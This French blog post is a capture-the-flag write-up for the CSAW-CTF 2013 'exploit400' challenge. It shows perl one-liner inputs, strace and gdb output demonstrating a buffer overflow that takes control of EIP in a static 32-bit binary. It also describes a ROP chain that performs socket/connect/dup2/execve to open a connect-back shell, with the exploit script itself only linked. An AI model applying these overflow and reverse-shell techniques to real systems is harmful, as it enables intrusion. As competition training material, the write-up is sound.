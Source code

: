 ```yaml
---
title: CSAW-CTF-2013 - Exploit 400
date: 2013-09-23
tags: ctf
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge exploit400 du CSAW-CTF 2013.

Vous pouvez trouver le binaire ici : [exploit400](https://repo.t0x0sh.org/ctf/2013-csaw/exploit400)

```
	$ file ./miteegashun
	./miteegashun: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV),
    statically linked, for GNU/Linux 2.6.24,
    BuildID[sha1]=41bbe92f629cbca9784458456d94282b2d2fd9e0, stripped
```

On a donc un ELF 32 bits statique et strippé.

L'avantage du binaire statique, c'est qu'on va avoir tout un tas de gadgets pour faire du ROP.

On remarque assez vite qu'en envoyant une longue chaine de caractère, on controle facilement EIP :

```
	$ perl -e 'print "A"x500;' | strace -i ./miteegashun
	[b7760424] execve("./miteegashun", ["./miteegashun"], [/* 32 vars */]) = 0
	[b77c1424] uname({sys="Linux", node="rand00m", ...}) = 0
	[b77c1424] brk(0)                       = 0x8ae6000
	[b77c1424] brk(0x8ae6d40)               = 0x8ae6d40

    ...

	[b77c1424] brk(0x8b07d40)               = 0x8b07d40
	[b77c1424] brk(0x8b08000)               = 0x8b08000
	[b77c1424] write(1, "Welcome to this demo of my explo"..., 93
    Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong
	) = 93
	[b77c1424] fstat64(0, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0

    ...

	[b77c1424] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 500
	[b77c1424] read(0, "", 4096)            = 0
	[41414141] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
	[????????] +++ killed by SIGSEGV (core dumped) +++
	Erreur de segmentation (core dumped)
```

Pour faciliter le débuguage avec GDB, j'ai utilisé un fifo :

```
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x417 . "CCCC"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x43434343  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x43434343
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x43434343
	0x43434343 in ?? ()
	gdb$ x/20xw $esp
	0x80f0448:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0458:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0468:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0478:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0488:      0x41414141      0x41414141      0x41414141      0x41414141
```

On remarque quelque chose d'étrange : déjà, l'adresse de la stack est en 0x080fXXXX. On imagine donc que le binaire a sa propre stack située dans le segment DATA.

Ensuite, après avoir écrasé EIP, on retournera dans notre buffer lorsqu'on essayera de faire du ROP.

Essayons quelque chose :

```
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x264 . "CCCC" . "B"x(413-264) . "DDDD"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x44444444  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x44444444
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x44444444
	0x44444444 in ?? ()
	gdb$ x/20x $esp
	0x80f0448:      0x43434343      0x42424242      0x42424242      0x42424242
	0x80f0458:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0468:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0478:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0488:      0x42424242      0x42424242      0x42424242      0x42424242
```

Cette fois, on controle toute la chaine d'exécution !

Notre payload ressemblera à ça après calcul des différents offsets :

![Payload](/images/exploit400.png)

Il y a une petite difficultée supplémentaire : le file descriptor doit être fermée pour que le payload soit exécuté. On ne peut donc pas réutiliser la socket !
Vu que nous disposons d'une grosse quantité de gadgets, je me suis amusé à faire une ROP chain basé sur l'instruction int 0x80.
Elle exécute à la suite : socket()/connect()/dup2()/execv

Voilà l'exploit : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/2013/csaw-ctf/exploit400.pl)


Par contre, le fichier contenant la clef s'affichait seulement avec ls -l (why ?!).
Un challenge plutôt sympa.
